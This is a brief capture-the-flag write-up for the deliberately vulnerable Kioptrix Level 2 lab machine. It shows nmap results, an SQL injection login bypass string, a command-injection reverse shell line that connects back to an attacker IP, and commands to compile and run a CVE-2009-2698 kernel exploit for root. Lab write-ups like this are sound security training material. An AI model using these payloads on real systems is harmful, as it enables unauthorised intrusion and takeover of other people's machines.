 <h1>Kioptrix: Level 2 Write-up</h1>

<h2>NMAP</h2>

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
```

<h4>PORT 80</h4>

sql injection : 

```
' or ''='
```

Shell : 

```;bash -i >& /dev/tcp/192.168.43.253/8080 0>&1```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%202/Images/web%20exp%20to%20shell.png)
![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%202/Images/wwwshell.png)

<h2>Privilege Escalation :</h2> 

Basic enumeration will reveal that this CentOS version **(4.5 Final) **is vulnerable to CVE-2009-2698

Exploit : https://www.exploit-db.com/exploits/9542

Compile and run in Kioptrix Box with 

```gcc -o 0x82-CVE-2009-2698 0x82-CVE-2009-2698.c && ./0x82-CVE-2009-2698```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%202/Images/Priv%20Escalatation.png)
